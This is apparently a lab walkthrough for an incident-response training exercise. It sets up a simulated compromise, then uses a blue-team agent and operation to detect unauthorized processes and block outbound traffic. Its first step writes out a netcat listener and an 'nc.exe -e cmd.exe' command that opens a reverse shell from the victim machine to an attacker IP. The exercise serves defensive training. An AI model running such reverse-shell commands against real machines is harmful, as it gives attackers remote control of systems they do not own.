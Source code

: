 ### Incident Response Scenario

Simulate a simple Incident Response scenario to trigger some of the abilities included in the **Incident Responder** profile. 

**First**: Establish a reverse shell from our victim machine to our AttackBox instance.

Attack Machine

```bash
nc -lvp 4444 -s $(hostname -I | awk '{print $1}')
```

Victim Machine

```powershell
PS C:\Tools> .\nc.exe 10.10.39.5 4444 -e cmd.exe
```

<img width="1591" height="530" alt="image" src="https://github.com/user-attachments/assets/fe809d36-d772-4c2e-b6bf-cd012a859a26" />

Now, let's execute the response operation and observe the behaviour 

### Running Blue operation

**Second**: deploy a new blue agent

<img width="1062" height="491" alt="image" src="https://github.com/user-attachments/assets/f41f81eb-5e38-44d0-aa42-bfdda41f2fd9" />

Choose the blue-team agent reverse shell

<img width="1071" height="510" alt="image" src="https://github.com/user-attachments/assets/9c7fcbed-8b37-43a1-96c1-d6ec08a1c292" />

Execute it on the victim machine.

<img width="996" height="293" alt="image" src="https://github.com/user-attachments/assets/137d6214-3fce-4d8c-8314-96de927ef992" />

The Agent is now active

<img width="1401" height="453" alt="image" src="https://github.com/user-attachments/assets/24087d28-307a-48b2-a0db-08bb6affe869" />

**Third**: Create a new blue operation

<img width="728" height="690" alt="image" src="https://github.com/user-attachments/assets/a4d7e283-ff98-40a4-9280-2c5a1a6d578f" />

Start the operation.

<img width="1744" height="799" alt="image" src="https://github.com/user-attachments/assets/f1825613-3e09-46e2-9a83-7af5934e3a78" />

The output of `Find unauthorized processes` ****ability

<img width="1111" height="220" alt="image" src="https://github.com/user-attachments/assets/56ce3c52-b9df-4089-8b43-4f0ca859b39e" />

<img width="1108" height="596" alt="image" src="https://github.com/user-attachments/assets/a33a1f93-0cee-4148-9678-40ec23917429" />

the output of `Enable Outbound TCP/UDP firewall rule` ability
